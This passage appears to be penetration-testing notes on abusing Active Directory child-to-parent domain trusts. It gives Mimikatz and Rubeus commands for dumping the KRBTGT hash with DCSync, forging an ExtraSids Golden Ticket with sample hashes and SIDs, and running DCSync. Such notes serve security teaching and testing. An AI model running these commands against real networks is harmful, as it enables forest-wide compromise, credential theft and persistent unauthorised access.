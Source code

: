 To perform this attack after compromising a child domain, we need the following:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

The KRBTGT account can be used to create Kerberos TGT tickets that can be used to request TGS tickets for any service on any host in the domain. This is also known as the Golden Ticket attack and is a well-known persistence mechanism for attackers in Active Directory environments. The only way to invalidate a Golden Ticket is to change the password of the KRBTGT account, which should be done periodically and definitely after a penetration test assessment where full domain compromise is reached.

````powershell
# Obtaining the KRBTGT Account's NT Hash using Mimikatz
# lsadump::dcsync /user:<domain>\krbtgt

# Using Get-DomainSID
> Get-DomainSID

# Obtaining Enterprise Admins Group's SID using Get-DomainGroup
> Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
````
We have gathered the following data points:
- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- The FQDN of the child domain: `<subdomain>`
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519
````powershell
# Creating a Golden Ticket with Mimikatz
# kerberos::golden /user:hacker /domain:<subdomain> /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
````

**Rubeus**

````powershell
# Creating a Golden Ticket using Rubeus
>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:<subdomain> /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# Confirming the Ticket is in Memory Using klist
> klist

# Performing a DCSync Attack
# lsadump::dcsync /user:<domain>\<user>
# lsadump::dcsync /user:<domain>\<user> /domain:<domain>
````

## Attacking Domain Trusts - Child -> Parent Trusts - from Linux
